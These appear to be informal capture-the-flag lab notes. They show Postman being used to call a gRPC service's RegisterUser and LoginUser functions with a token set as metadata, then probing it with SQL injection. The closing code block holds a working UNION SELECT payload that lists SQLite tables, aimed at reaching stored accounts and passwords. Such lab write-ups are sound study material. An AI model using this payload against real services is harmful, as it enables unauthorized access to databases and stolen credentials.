
https://www.postman.com/downloads/
Registered for a free account and downloaded the program

```sh
┌──(kali㉿kali)-[~/Downloads]
└─$ tar -xf postman-linux-x64.tar.gz
```

```sh
┌──(kali㉿kali)-[~/Downloads/Postman/app]
└─$ ./postman
```

Logged in, Clicked New and gRPC. Then I just entered the ip and port and the functions appeared.
I had  to click "Use Example Message" to see how to type. There were fields to type in in the grpcui tool.

RegisterUser
![[postman1.png]]

LoginUser
![[postman2.png]]

![[postman3.png]]
After installing postman with sudo into /opt I restarted and got a trailer too. maybe it was just the restart or something else, like it's the next day.
After trying again I thing  you only get the token at first login. I made a new account and got a token but after switching functions the into is gone/not saved and does not appear again when I invoke loginuser again.

To get this to work you have to remove b'  ' from the token string and set it as metadata
![[postman4.png]]

![[postman5.png]]

SQLi time, this  way instead of burp
![[postman6.png]]

tables
![[postman7.png]]

accounts & passwords
![[postman8.png]]
```sql
id": "2 UNION SELECT sqlite_version() || ', [' || group_concat(tbl_name,', ') FROM sqlite_master WHERE type='table' || ''
```

